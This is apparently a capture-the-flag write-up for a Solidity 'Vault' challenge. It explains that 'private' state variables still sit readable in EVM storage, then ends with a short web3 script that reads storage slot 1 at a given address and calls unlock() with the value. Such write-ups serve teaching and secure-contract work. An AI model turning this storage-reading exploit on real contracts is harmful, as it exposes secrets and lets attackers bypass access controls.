

## Challenge
### Description
Unlock the vault to pass the level!
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```
## Background

---

A contract's state variables are stored in EVM storage. Storage is divided into 32-byte slots, and ordinary value-type state variables are laid out starting from slot 0 in declaration order.
Solidity can pack smaller types into the same slot. For example, a `bool` needs only 1 byte. However, `bytes32` is a 32-byte type that occupies an entire slot, so if the preceding `bool` goes into slot 0, the following `bytes32` is stored in slot 1.
To read a specific slot from outside, use `web3.eth.getStorageAt`.
```javascript
await web3.eth.getStorageAt(contractAddress, slotNumber)
```

---

`private` is an access restriction at the contract code level. It prevents other contracts from calling a getter like `password()` and prevents derived contracts from accessing the variable directly.
It does not hide the storage recorded on the blockchain. Every node holds the contract's storage, and the raw value of any slot can be queried over RPC. So a secret stored as-is in a state variable is readable even when marked `private`.
## Code analysis

---

Start with the storage layout.
```solidity
contract Vault {
    bool public locked;
    bytes32 private password;
```
`locked` is the first state variable, so it is stored in slot 0. `password` is the second state variable and is of type `bytes32`, so it is stored in slot 1.
`private` only suppresses the automatic getter; the value of `password` sits in the contract's storage in plaintext, so reading slot 1 directly returns it.

---

The unlock condition:
```solidity
function unlock(bytes32 _password) public {
    if (password == _password) {
        locked = false;
    }
}
```
`unlock` sets `locked` to `false` if the supplied `_password` matches the `password` in storage. There is no separate access control.
So the attack is to read the `password` value from slot 1 and pass it straight to `unlock`.
## Solution
`password` just can't be read through an external function; it is still stored as-is in storage slot 1.
Query slot 1 to get the `bytes32` value, pass it as the argument to `unlock`, and `locked` becomes `false`.
### Exploit
```javascript
const password = await web3.eth.getStorageAt(
  "0x045fA1eF4d2cc0Ec669B1Ac0CD2f7bCd036EF43A",
  1
);

await contract.unlock(password);
```

